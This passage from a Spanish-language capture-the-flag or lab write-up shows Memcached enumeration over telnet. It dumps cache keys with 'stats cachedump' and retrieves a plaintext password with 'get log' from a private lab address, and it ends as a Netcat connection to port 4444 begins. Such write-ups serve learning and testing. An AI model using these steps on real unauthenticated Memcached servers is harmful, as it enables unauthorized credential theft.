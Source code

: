 > Free & open source, high-performance, distributed memory object caching system

En la misma página oficial nos da una pista importante a modo de ejemplo:

~~~
Play with telnet

$ telnet localhost 11211
Trying 127.0.0.1...
Connected to localhost.
Escape character is '^]'.
get foo
VALUE foo 0 2
hi
END
stats
STAT pid 8861
(etc)
~~~

De esta forma, sabemos que el vector de ataque es mediante Telnet al servicio Memcached a través del puerto 11211.
Aquí estaba bastante perdido, pero como siempre, Google es nuestro mejor amigo, por lo que buscando "pentest memcached" nos llevó a este artículo:
<https://www.hackingarticles.in/penetration-testing-on-memcached-server/>

Sigo los pasos del artículo y llego a esto introduciendo `stats cachedump 1 0`:

~~~
❯ telnet 192.168.0.25 11211
Trying 192.168.0.25...
Connected to 192.168.0.25.
Escape character is '^]'.
stats cachedump 1 0
ITEM domain [8 b; 0 s]
ITEM server [9 b; 0 s]
ITEM log [18 b; 0 s]
ITEM conf_location [21 b; 0 s]
END
~~~

Ahora realizamos `get log`:

~~~
get log
VALUE log 0 18
password: cr4zyM3d
END
~~~

Y ya tenemos una **contraseña**


### Puerto 4444

Nos conectamos por Netcat:
